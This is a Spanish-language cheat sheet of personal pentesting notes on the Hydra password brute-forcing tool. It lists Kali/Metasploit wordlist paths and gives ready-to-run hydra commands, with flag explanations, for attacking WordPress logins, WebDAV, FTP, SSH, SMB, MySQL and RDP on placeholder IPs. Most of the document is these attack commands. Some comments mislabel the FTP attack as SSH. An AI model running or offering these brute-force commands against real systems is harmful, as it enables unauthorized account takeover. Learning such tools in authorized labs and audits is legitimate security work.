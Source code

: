 # Hydra 

Tags: #Hydra 

Es una herramienta de prueba de penetración que se utiliza para realizar ataques de fuerza bruta, por así decirlo, en servicios de autenticación remotos. Esta herramientas nos ayuda a poder encontrar passwd mediante ataques furtivos. 

- Soporte de múltiples protocolos: Hydra es compatible con una amplia gama de protocolos de autenticación incluyendo: SSH, Telnet, FTP, HTTP, POP3, SMB, etc...
* Fuerza bruta avanzada: Hydra es capas de realizar ataques de fuerza bruta avanzados, incluyendo ataques de diccionario y ataques basados en patrones. 
	* Podemos usar los diccionarios que ya viene en Parrot o Kali Linux (rockyou.txt)
* Modos de operación flexibles: Hydra admite diferentes modos de operación, incluyendo modo de ataque directo, modo de ataque de diccionario y modo de ataque hibrido.
* Capacidad de paralelización: Hydra es capas de realizar múltiples intentos de autenticación simultáneamente, lo que mejora la velocidad y la eficiencia del ataque. 

- Casos de uso:
	- Pruebas de penetración 
	- Auditoria de passwd
	- Recuperación de passwd

```bash 
# Directorio 
/usr/share/wordlists/rockyou.txt

# Directorios 'passwords'
/usr/share/metasploit-framework/data/wordlists/unix-passwords.txt
/usr/share/wordlists/metasploit/common_passwords.txt

# Directorios 'Users'
/usr/share/metasploit-framework/data/wordlists/unix_users.txt
/usr/share/wordlists/metasploit/common_users.txt
```

## Hydra fuerza bruta WordPress

Esto se usa en el panel del admin de WordPress.
```python
❯ hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix-passwords.txt http://IP http-post-form '/wordpress/wp-login.php:log=^USER^&pwd=^PASS^:S=302' 
❯ hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix-passwords.txt http://IP http-post-form '/wordpress/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid user'
# Haremos un ataque de fuerza bruta a WordPress

	# l (ele) = Usuario que en este caso es  'omar'
	# P = Ruta del diccionario
	# log y pwd = Lo podemos encontrar en el apartado de la pagina web 'Ctrl + u' 
	# S = Redireccionamiento con el codigo 302
	# F = Error que nos muestre el panel de autenticacion, por si no sirve con el 'S'
```

## Hydra fuerza bruta WebDAV

```python 
❯ hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt ❮IP❯ http-get /webdav/

	# webdav = Directorio de autenticacion 
	# L = Indicas un archivo que disponga de usuarios 
	# P = Ruta del diccionario o 'archivo que contiene passwds'
```

## Hydra fuerza bruta FTP
```python
❯ hydra -l omar -P /usr/share/wordlists/rockyou.txt ftp://❮IP❯ -t 15 # Haremos un ataque de fuerza bruta al puerto SSH, antes de completar el comando con soble TAB podemos ver la lista de diccionarios

❯ hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ❮IP❯ ftp -t 4

	# l (ele) = Usuario que en este caso es  'omar'
	# L = Indicas un archivo que disponga de usuarios 
	# P = Ruta del diccionario o 'archivo que contiene passwds'
	# t = Lanzar tareas en paralelo al mismo tiempo
```

## Hydra fuerza bruta SSH

```python
❯ hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ssh://❮IP❯ -t 4
# Haremos un ataque de fuerza bruta al puerto SSH

	# ssh = Puerto al que vamos a atacar 22
	# IP = Direccion de la maquina victima
	# P = Ruta del diccionario o 'archivo que contiene passwds'
	# L = Ruta del diccionario o 'archivo que contiene users'
	# t = Lanzar tareas en paralelo al mismo tiempo
```

```python
❯ hydra -l root -P /usr/share/wordlists/rockyou.txt ❮IP❯ ssh
❯ hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://❮IP❯ -t 15 -V -s 2222 # Haremos un ataque de fuerza bruta al puerto SSH, antes de completar el comando con soble TAB podemos ver la lista de diccionarios

	# ssh = Puerto al que vamos a atacar 22
	# IP = Direccion de la maquina victima
	# P = Ruta del diccionario o 'archivo que contiene passwds'
	# l (ele) = usuario que en este caso es  'root'
	# t = Lanzar tareas en paralelo al mismo tiempo
	# V = Verbosity
	# s = Port y es el puerto al que nos queremos conectar 
```

## Hydra fuerza bruta SMB / SAMBA
```python 
❯ hydra -l admin -P /usr/share/wordlists/rockyou.txt smb://<IP>        # Fuerza bruta al usuario en el servidor SMB
❯ hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP> smb

❯ hydra -L user.list -P password.list smb://<IP>        # Para ver si esos usuarios y passwd son validos en un servidor SMB

	# L = Ruta o archivo que contiene los usuarios
	# P = Ruta o archivo que contiene las passwd
	# l = Un usuario en especifico
```

## Hydra fuerza bruta MYSQL

```python
❯ hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <IP> mysql

	# P = Ruta o archivo que contiene las passwd
	# l = Un usuario en especifico
```

## Hydra fuerza bruta RDP

```python 
# Brute force para encontrar usuarios y sus passwd en RDP
❯ hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://<IP> -s 3333           

	# L = Ruta o archivo que contiene los usuarios
	# P = Ruta o archivo que contiene las passwd
	# s = Especificas el puerto, si no lo haces Hydra asumira que es el puerto 3389
```



